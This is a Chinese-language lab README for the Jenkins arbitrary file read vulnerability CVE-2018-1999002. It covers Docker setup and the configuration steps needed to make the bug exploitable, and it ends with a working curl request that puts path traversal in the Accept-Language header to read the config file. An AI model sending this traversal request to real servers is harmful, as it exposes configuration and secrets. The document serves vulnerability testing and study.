

# Jenkins 任意文件读取漏洞（CVE-2018-1999002）

## 原理

参考阅读 https://xz.aliyun.com/t/2486

## 测试环境搭建

测试环境编译及运行：

```
docker-compose build
docker-compose up -d
```

首次运行时会要求填写初始密码，默认在`/var/jenkins_home/secrets/initialAdminPassword`文件中，使用`docker-compose exec jenkins cat /var/jenkins_home/secrets/initialAdminPassword`即可读取。

安装完成后，在 `系统管理->全局安全配置` 下设置 `匿名用户具有可读权限`。

在开启匿名用户的可读权限后，该漏洞在Windows环境下可任意读取，但在Linux下读取条件较为苛刻，为方便测试，运行`docker-compose exec jenkins mkdir /var/jenkins_home/plugins/jquery-detached/_`来满足漏洞的利用条件。

## 测试过程

```
curl -H 'Accept-Language: /../../../config' http://127.0.0.1:8080/plugin/jquery-detached/.xml
```

读取配置文件：


